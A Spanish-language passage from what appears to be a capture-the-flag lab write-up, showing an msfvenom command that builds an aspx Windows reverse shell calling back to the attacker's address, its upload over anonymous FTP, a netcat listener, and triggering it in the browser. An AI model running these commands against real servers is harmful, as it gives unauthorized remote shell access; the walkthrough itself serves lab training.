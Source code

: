 Para la siguiente intrusión vamos a crear con `msfvenom` una reverse shell indicando el formato `aspx`.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=4564 -f aspx -o reverseShell.aspx
```

Cargamos la reverse shell al servidor `ftp`.

```bash
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:bast1ant1c): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put reverseShell.aspx 
local: reverseShell.aspx remote: reverseShell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2765 bytes sent in 0.00 secs (23.7559 MB/s)
```

Creamos un listener por el puerto que elegimos.
  
```bash
rlwrap nc -lvnp 4564
```

En el navegador vamos a la ruta `http://10.10.10.5/reverseShell.aspx` y logramos tener acceso por otra vía a la máquina víctima.

<p align="center">
<img src="/assets/images/devel/07-page5.png">  
</p> 
